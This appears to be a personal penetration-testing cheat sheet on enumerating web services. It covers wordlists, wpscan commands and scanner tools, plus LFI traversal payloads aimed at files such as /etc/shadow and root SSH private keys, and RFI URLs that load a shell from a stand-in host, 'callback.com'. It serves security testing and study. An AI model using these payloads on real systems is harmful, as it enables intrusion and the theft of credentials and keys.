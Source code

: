 ```yaml
---
title: Enumerating Web Services
updated: 2023-08-03 13:15:32Z
created: 2019-11-22 06:15:09Z
---
```



# Step 1: ALWAYS LOOK AT THE SOURCE CODE OF THE WEBPAGE!

## Step 2: 

## Common Wordlists to use for Web App Scanning: 

Common Wordlists to use for Web Directory Scanning: 
- /usr/share/wordlists/dirb/common.txt
- /usr/share/wordlists/dirbuster/*.txt
- /usr/share/wordlists/wfuzz/general/*.txt
- /usr/share/seclists/Discovery/Web-Content/
- Assetnote Wordlists: https://wordlists.assetnote.io/
- Jhaddix Content Discovery: https://gist.github.com/jhaddix/b80ea67d85c13206125806f0828f4d10

Common Wordlists to use for User Enumeration Scanning: 
- /usr/share/seclists/Usernames
- /usr/share/wordlists/dirbuster/apache-user-enum-2.0

## Web App Scanners


Wpscan(WordPress Scannner):

- wpscan --url <domain>
- wpscan --url <domain> --enumerate ap at (All Plugins, All Themes)
- wpscan --url <domain> --enumerate u (Usernames)
- wpscan --url <domain> --enumerate v



Other Tools: 
- Burp Suite
- OWASP Zap
- Cadaver
- SQLMap
- Joomscan
- Feroxbuster

## Testing for LFI: 

https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf

Examples: 

http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd

Interesting Files:

Linux:

```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa
```

Windows:
```
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM
```


## Testing for RFI: 

http://example.com/index.php?page=http://callback.com/shell.txt
http://example.com/index.php?page=http://callback.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt

## Resources

- Turning LFI to RFI: 
https://l.avala.mp/?p=241
Backup: https://web.archive.org/web/20210612222732/https://l.avala.mp/?p=241
